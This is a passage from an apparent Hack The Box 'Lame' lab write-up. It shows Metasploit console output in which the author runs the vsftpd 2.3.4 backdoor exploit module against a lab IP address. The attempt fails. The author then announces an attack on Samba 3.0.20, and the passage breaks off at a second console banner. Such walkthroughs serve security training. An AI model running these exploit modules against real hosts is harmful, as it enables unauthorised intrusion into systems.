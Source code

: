 ```sql
================================================================================

                     Press ENTER to size up the situation

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

                        Press SPACE BAR to continue



       =[ metasploit v6.0.50-dev                          ]
+ -- --=[ 2144 exploits - 1142 auxiliary - 365 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: View a module's description using 
info, or the enhanced version in your browser with 
info -d

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.129.224.74
RHOSTS => 10.129.224.74
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.129.224.74:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.224.74:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

* From the above output, we can see that even though the machine is running at a lower version, it is not vulnerable to `vsftpd 2.3.4` backdoor command execution.

* OK! Let us go back to the Nmap scan. We can see that samba(3.0.20-Debian) is also running at a lower version. Let's try to exploit it.
* We can exploit it in two ways: the [Metasploit](https://www.metasploit.com/) Framework and manually exploiting the service.
* Let us Fire up Metasploit Framework on our remote machine and load the payload.

```bash

┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/lame]
└─$ msfconsole
                                                  

                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
```